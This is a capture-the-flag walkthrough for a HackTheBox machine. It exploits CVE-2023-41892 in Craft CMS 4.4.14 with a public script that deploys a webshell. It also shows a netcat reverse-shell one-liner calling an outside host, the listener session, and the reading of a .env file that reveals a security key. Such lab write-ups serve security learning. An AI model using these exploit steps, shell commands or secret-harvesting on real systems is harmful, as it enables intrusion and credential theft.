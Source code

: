 There login page did not display the version of the CMS but the source code of the index page did.

```html
<!-- footer section -->
<section class="footer_section">
    <div class="container">
        <p>
            &copy; <span id="displayYear"></span> All Rights Reserved By
            SURVEILLANCE.HTB</a><br> <b>Powered by <a href="https://github.com/craftcms/cms/tree/4.4.14"/>Craft CMS</a></b>
    	</p>
    </div>
</section>
```

# Exploitation

Searching for `CraftCMS 4.4.14 exploit` resulted in CVE-2023-41892. Used the exploit code from this [GitHub repository](https://github.com/Faelian/CraftCMS_CVE-2023-41892).

```bash
$ python3 craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web
[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done
[!] Enjoy your shell
> whoami
www-data
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
> rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 9999 >/tmp/f
```

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.245] 45450
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web$ cd /home
www-data@surveillance:/home$ ls
matthew
zoneminder
```

Found a `.env` file.

```bash
www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
```